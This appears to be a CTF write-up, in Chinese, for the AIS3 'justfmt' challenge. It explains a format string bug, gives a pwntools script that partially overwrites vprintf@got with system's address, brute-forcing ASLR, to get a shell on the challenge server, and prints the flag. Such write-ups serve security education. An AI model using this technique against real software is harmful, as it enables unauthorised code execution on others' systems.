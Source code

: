 ## justfmt
### solution
`WriteFormatted`會把參數丟到`va_list`傳給`vprintf`，因此實際上就等於`printf`，題目大致能改寫如下
```c
int main() {
    read(0, buf, 40)
    printf(buf);
    printf(buf);
}
```
本題`vprintf`有40 bytes buffer的format string漏洞，基本上能辦到任意寫跟leak，詭異的點在於連續`vprintf`兩次，但中間卻沒有任何輸入能改變buf。

題目給了libc，但只有一次input，就算leak出位址了也不能再次輸入，沒有leak的話也沒辦法知道return的位址來控制rip，

檔案只有PARTIAL RELRO，唯一想到控制rip的方法是overwrite `vprintf@got`，原本想試圖寫為`main`之類的，但若是寫掉`vprintf`也就無法再繼續使用漏洞，試著partial寫成one gadget也都fail。

最後想到的是不穩定的方式，在提供的libc中可以發現`vprintf`位址為`0x4f040`，`system`為`0x46590`，由於ASLR不會隨機化最後12bits，且這兩者在附近，因此我們可以試著把`vprintf@got`最後2 bytes(16bits)寫成`0x6590`，如此一來只要賭前4個bit(16種可能)，也就是1/16的機率相同即可執行`system`。

再來是payload，由於要執行shell，因此最前面加上`sh #`來截斷後面的部份即可。

### script
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

while True :
    r = remote("104.199.235.135", 2113)
    binary = ELF("justfmt")
    libc = ELF("libc-2.19.so")

    payload = b"sh #"
    payload += b"%%%dc%%13$hn" % (libc.symbols[b"system"] % 0x10000 - len(payload))
    payload += b"a" * (0x38 - len(payload))
    payload += p64(binary.got[b'vprintf'])

    r.sendline(payload)
    try:
        r.interactive()
    except:
        r.close()
        continue
```
### flag
```
AIS3{fMt_stR1n6_1s_H4rp_s0w3t1meS_dnt_1ts_fnu!!}
```
